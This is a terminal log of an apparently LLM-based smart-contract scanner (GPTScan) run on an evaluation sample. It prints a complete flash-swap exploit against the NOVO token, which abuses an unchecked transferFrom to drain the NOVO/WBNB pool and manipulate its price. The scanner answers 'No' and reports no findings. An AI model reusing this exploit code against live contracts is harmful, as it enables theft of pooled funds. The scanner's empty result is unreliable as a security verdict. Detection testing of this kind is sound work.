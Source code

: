 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:12] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220529 NOVO Protocol - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when               
           not using a compilation framework.                                                                                                                                                                                                           
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220529 NOVO Protocol - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a compilation framework.                                   
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function testExploit() public {                                                                                                                                                                                                                    │
│     wbnb.deposit{ value: 10 * 1e18 }();                                                                                                                                                                                                              │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[Start] Attacker WBNB balance before exploit",                                                                                                                                                                                                │
│       wbnb.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Brrow 17.2 WBNB                                                                                                                                                                                                                               │
│     bytes memory data = abi.encode(                                                                                                                                                                                                                  │
│       0xEeBc161437FA948AAb99383142564160c92D2974,                                                                                                                                                                                                    │
│       172 * 1e17                                                                                                                                                                                                                                     │
│     );                                                                                                                                                                                                                                               │
│     PancakePair.swap(0, 172 * 1e17, address(this), data);                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[End] After repay, WBNB balance of attacker",                                                                                                                                                                                                 │
│       wbnb.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│   "1": "No"                                                                                                                                                                                                                                          │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│   function pancakeCall(                                                                                                                                                                                                                              │
│     address sender,                                                                                                                                                                                                                                  │
│     uint256 amount0,                                                                                                                                                                                                                                 │
│     uint256 amount1,                                                                                                                                                                                                                                 │
│     bytes calldata data                                                                                                                                                                                                                              │
│   ) public {                                                                                                                                                                                                                                         │
│     // 攻擊者先買入 NOVO Token                                                                                                                                                                                                                       │
│     // 透過 NOVO Token 的 transferFrom 未過濾 `from`                                                                                                                                                                                                 │
│     // `from` 指定為 NOVO/WBNB 的 LP pool, 即可操縱 PancakeSwap NOVO/WBNB 的價格                                                                                                                                                                     │
│     // 攻擊者再賣出 flashswap 借來的 NOVO Token 即可獲利                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│     address[] memory path = new address[](2);                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "[*] Attacker flashswap Borrow WBNB",                                                                                                                                                                                                          │
│       amount1,                                                                                                                                                                                                                                       │
│       18                                                                                                                                                                                                                                             │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Use borrow WBNB to swap some NOVO token                                                                                                                                                                                                       │
│     emit log_string("[*] Attacker going swap some NOVO...");                                                                                                                                                                                         │
│     wbnb.approve(address(PancakeRouter), type(uint256).max);                                                                                                                                                                                         │
│     path[0] = address(wbnb);                                                                                                                                                                                                                         │
│     path[1] = address(novo);                                                                                                                                                                                                                         │
│     PancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│       172 * 1e17,                                                                                                                                                                                                                                    │
│       1,                                                                                                                                                                                                                                             │
│       path,                                                                                                                                                                                                                                          │
│       address(this),                                                                                                                                                                                                                                 │
│       block.timestamp                                                                                                                                                                                                                                │
│     ); // get 4,749,070,146,640,911 NOVO Token                                                                                                                                                                                                       │
│     require(novo.balanceOf(address(this)) != 0, "Swap Failed");                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     // Sync NOVO token balance before exploit                                                                                                                                                                                                        │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] Attacker NOVO balance",                                                                                                                                                                                                              │
│       novo.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] PancakeSwap NOVO/WBNB LP balance",                                                                                                                                                                                                   │
│       novo.balanceOf(address(novoLP)),                                                                                                                                                                                                               │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Manipulate the LP of NOVO/WBNB => Manipulate the NOVO/WBNB price                                                                                                                                                                              │
│     emit log_string("[E] Attacker going manipulate NOVO/WBNB LP...");                                                                                                                                                                                │
│     novo.transferFrom(address(novoLP), address(novo), 113951614762384370); // 113,951,614.76238437 NOVO Token                                                                                                                                        │
│     emit log_named_decimal_uint(                                                                                                                                                                                                                     │
│       "\t[INFO] PancakeSwap NOVO/WBNB LP balance",                                                                                                                                                                                                   │
│       novo.balanceOf(address(novoLP)),                                                                                                                                                                                                               │
│       9                                                                                                                                                                                                                                              │
│     );                                                                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│     // Sync NOVO/WBNB price                                                                                                                                                                                                                          │
│     novoLP.sync();                                                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│     // Swap NOVO to WBNB, make attacker profit                                                                                                                                                                                                       │
│     emit log_string("[*] Attacker going swap some WBNB...");                                                                                                                                                                                         │
│     novo.approve(address(PancakePair), novo.balanceOf(address(this)));                                                                                                                                                                               │
│     path[0] = address(novo);                                                                                                                                                                                                                         │
│     path[1] = address(wbnb);                                                                                                                                                                                                                         │
│     PancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│       novo.balanceOf(address(this)),                                                                                                                                                                                                                 │
│       1,                                                                                                                                                                                                                                             │
│       path,                                                                                                                                                                                                                                          │
│       address(this),                                                                                                                                                                                                                                 │
│       block.timestamp                                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     require(wbnb.balanceOf(address(this)) > 172 * 1e17, "Exploit Failed");                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     // Payback the flashswap, will be `BorrowAmount` + 0.25% fee                                                                                                                                                                                     │
│     require(                                                                                                                                                                                                                                         │
│       wbnb.transfer(address(PancakePair), amount1 + 4472 * 10e13),                                                                                                                                                                                   │
│       "Payback Failed"                                                                                                                                                                                                                               │
│     );                                                                                                                                                                                                                                               │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│   "1": "No"                                                                                                                                                                                                                                          │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                   Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value              ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                  │
│ Contracts            │ 2                  │
│ Functions            │ 2                  │
│ Lines of Code        │ 135                │
│ Used Time            │ 1.3641338348388672 │
│ Estimated Cost (USD) │ 0.0017205          │
└──────────────────────┴────────────────────┘
